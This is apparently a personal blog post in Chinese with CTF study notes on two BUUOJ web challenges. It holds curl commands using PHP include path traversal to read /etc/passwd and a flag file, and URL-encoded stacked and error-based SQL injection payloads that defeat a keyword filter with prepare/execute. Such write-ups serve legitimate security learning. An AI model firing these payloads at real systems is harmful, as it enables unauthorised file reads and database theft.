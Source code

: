 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Web"
date:   2020-04-18 20:00:38 +0800
---
```


# Problems

最近(2020-04-18)[南邮CTF平台](https://cgctf.nuptsast.com/)登不上去，chrome总提示连接超时.

## [HCTF 2018] WarmUp 1

```shell
url='http://a762a799-746e-4549-beb3-a076fbfd409e.node3.buuoj.cn/'
# 发现注释里有一个source.php 结果是一堆 entity encoding，先用 perl 处理一下
curl $url'source.php' | perl -MHTML::Entities -pe 'decode_entities($_)' > source.php
# 看下是什么编码？
file source.php
# source.php: ISO-8859 text, with very long lines
# 转换一下编码
iconv -f 'ISO-8859-1' -t 'UTF-8' source.php -o source.php
# 改后缀html。这个东西用浏览器打开后看起来像是源代码，但是有很多html标签；用脚本再处理一下，终于能看了
# 源代码的意思大概是包含一个名字和参数file的值相同的文件；
# 本来只能包含白名单source和hint这两个文件，但是这个脚本会截取字符串中"?"之前的内容用来和白名单比较。
cp source.php source.html
./hctf_2018_warm_up_1_strip.py source.html > source.php

# 发现有个hint.php
curl $url'hint.php'
# flag not here, and flag in ffffllllaaaagggg

# 尝试访问 ffffllllaaaagggg 未果
curl $url'ffffllllaaaagggg'
curl $url'source.php?file=ffffllllaaaagggg'
# 不行
```
谷歌说可以给参数插入问号`?`和连续多个父目录`..`，比如PHP会把 `hint.php?/../`之后的内容视为当前目录，这里的原理还没有完全弄清楚；可能源码截取"?"是在提示这个现象的？

```shell
# 因为源码用了REQUEST，参数既可以从查询参数，也可以从表单中取得
curl $url'source.php' -X POST -d 'file=hint.php?/../../../../etc/passwd'
curl $url'source.php?file=hint.php?/../../../../etc/passwd'
# 插入很多个父目录
curl $url'source.php?file=hint.php?/../../../../../ffffllllaaaagggg'
```

```python
# !/usr/bin/python3
# encoding=utf8
# hctf_2018_warm_up_1_strip.py
# Remove html tags
import sys

with open(sys.argv[1], encoding='utf8') as f:
  import re
  content = f.read()
  
  content = re.sub(r'\<span[^>]+\>', '', content)
  content = re.sub(r'\</span>', '', content)
  content = re.sub(r'\<br\s*/\>', '\n', content)
  print(content)
```

## [强网杯 2019]随便注 1

```shell
url="http://91b13641-161f-4df8-9290-e2d26f5c5340.node3.buuoj.cn/?inject="
# 有一个 inject 参数。发现是 PHP
curl $url'1'

# q("1' -- a")
# 带上引号和注释，发现没有报错，原来的SQL应该是 'SELECT * FROM WHERE A=\''.$inject.'\' ... '
curl $url'1%27%20--%20a'

# q("1' order by 3 -- a")
# 报错，表示有2列
curl $url'1%27%20order%20by%203%20--%20a'

# q("9' union select 1,2,3 -- a")
# 不OK。下面的正则表达式表示关键字 select等，以及句号 . 被过滤掉了，大小写不能通过
# return preg_match("/select|update|delete|drop|insert|where|\./i",$inject)
curl $url'9%27%20union%20select%201%2C2%2C3%20--%20a'
# error-based sqli 看用户名 root@localhost，数据库名 supersqli，版本 10.3.18-MariaDB
# q("9' and extractvalue('',concat('~',user(),'~')) -- a")
curl $url'9%27%20and%20extractvalue%28%27%27%2Cconcat%28%27%7E%27%2Cuser%28%29%2C%27%7E%27%29%29%20--%20a'
```

止步于此了，挫折感满满啊'_'。谷歌说可以尝试看下是否可以注入多个SQL语句；另外 select 被过滤了不能用来查DB，但可以尝试 show 和 desc 。事后证明这个题目的源代码使用到了PHP [multi_query](https://zhuanlan.zhihu.com/p/78989602)，

```shell
# 看schema 
# q("1';show databases#")
# 这里也不需要短路，会直接显示所有表
curl $url'1%27%3Bshow%20databases%23'
# 看表
# q("1';show tables#")
# 有两个表，1919810931114514 和 words
curl $url'9%27%3Bshow%20tables%23'
# 看表结构
# q("1'; desc `1919810931114514` #")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```

但是还是不清楚怎么把答案select出来。谷歌说还有一种叫做**预编译SQL**的操作，简单来说就是在允许执行多个SQL语句的情况下，先prepare拼接sql语句然后execute。谢天谢地没把from以及这几个关键字过滤掉。

```shell
# q("1'; prepare stat from concat('sel', 'ect * from `1919810931114514`'); execute stat;#")
# 有两列 flag 和 NO，答案就在这个表 
curl $url'1%27%3B%20desc%20%601919810931114514%60%20%23'
```

知乎有个[文章](https://zhuanlan.zhihu.com/p/78989602)表示，因为可以执行多个SQL语句，所以可以把答案所在表的名字和列名改成被注入的SQL语句的，让原来的sql语句直接把答案select出来，太厉害了。


# Notes

- php
  - [include](https://www.php.net/manual/en/function.include.php)
    - consecutive `../`s
    - [`'?/../'`](https://stackoverflow.com/q/61288089/8706476)
  - [multi_query](https://zhuanlan.zhihu.com/p/78989602), [store_result](https://www.php.net/manual/en/mysqli.multi-query.php) and [more_results](https://www.php.net/manual/en/mysqli.multi-query.php)
- sql
  - error-based sqli
    - `extractvalue(frag, xpath)` xpath
  - [Prepared statement](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)
    - prepare; set; execute
  - `show databases/tables` and `desc`
